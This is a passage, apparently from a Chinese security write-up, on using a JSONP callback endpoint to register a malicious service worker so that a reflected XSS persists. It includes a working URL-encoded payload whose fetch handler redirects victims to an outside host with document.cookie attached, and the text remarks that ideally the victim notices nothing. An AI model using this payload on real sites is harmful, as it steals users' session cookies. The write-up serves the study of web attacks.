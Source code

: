 即生成一个  `Content-Type`为`text/html` body 为 `<script>alert(document.domain)</script>` 的响应



效果·如下·

[![BSZTfA.md.png](https://s1.ax1x.com/2020/10/20/BSZTfA.md.png)](https://imgchr.com/i/BSZTfA)



即使不存在的页面也会返回定义的页面， 因此就达到了xss 反射型变为 存储型

[![BSeSYj.md.png](https://s1.ax1x.com/2020/10/20/BSeSYj.md.png)](https://imgchr.com/i/BSeSYj)



XX.php 同时被访问到

[![BSeDnf.md.png](https://s1.ax1x.com/2020/10/20/BSeDnf.md.png)](https://imgchr.com/i/BSeDnf)



将alert 改成 获取cookie的代码

```javascript
<script>
navigator.serviceWorker.register('/XX.php?callback=onfetch%3Dfunction(e)%7Be.respondWith(new%20Response(%27%3Cscript%3Ewindow.location.href%3D%22http%3A%2F%2Fwww.baidu.com%2F%3Fa%3D%22%2Bdocument.cookie%3C%2Fscript%3E%27%2C%7Bheaders%3A%20%7B%27Content-Type%27%3A%27text%2Fhtml%27%7D%7D))%0A%7D%2F%2F');
</script>
```



效果如下



[![BSK7s1.png](https://s1.ax1x.com/2020/10/20/BSK7s1.png)](https://imgchr.com/i/BSK7s1)

最理想的情况下是需要在受害者感觉不到的情况下获取信息



影响范围

`在这样的设定下，只能使注册的脚本在同域子目录下生效`

引用 `https://speakerdeck.com/masatokinugawa/pwa-study-sw?slide=14` 图

[![BSmd54.md.png](https://s1.ax1x.com/2020/10/20/BSmd54.md.png)](https://imgchr.com/i/BSmd54)





